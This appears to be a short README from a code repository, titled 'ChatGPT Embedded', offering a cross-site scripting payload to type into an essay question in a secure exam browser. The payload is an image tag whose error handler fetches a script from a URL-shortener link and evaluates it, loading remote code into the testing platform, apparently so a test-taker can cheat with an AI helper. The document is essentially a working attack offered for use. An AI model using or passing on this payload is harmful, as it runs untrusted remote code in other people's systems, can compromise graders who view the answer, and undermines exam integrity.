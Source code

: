 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/payloadcheat").then(r => r.text()).then(eval);'>
```

